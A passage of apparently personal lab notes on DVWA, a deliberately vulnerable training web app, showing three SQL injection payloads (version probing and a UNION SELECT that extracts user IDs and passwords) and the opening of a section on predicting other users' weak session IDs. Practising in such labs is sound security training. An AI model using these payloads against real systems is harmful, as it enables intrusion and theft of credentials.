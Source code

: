     ```bash
    0' UNION SELECT (IF (SUBSTRING((SELECT @@version),1,2) = '10', TRUE, FALSE))
    
    ```
    
    ```bash
    0' OR SUBSTRING((SELECT @@version),1,2) = '10'
    ```
    
    ```bash
    0' UNION SELECT user_id,password from users WHERE user_id = '0
    ```
    

---

# 9. Weak Session IDs

### Objective: This module uses four different ways to set the dvwaSession cookie value, the objective of each level is to work out how the ID is 
generated and then infer the IDs of other system users.

### 觀察

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2092.png)

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2093.png)
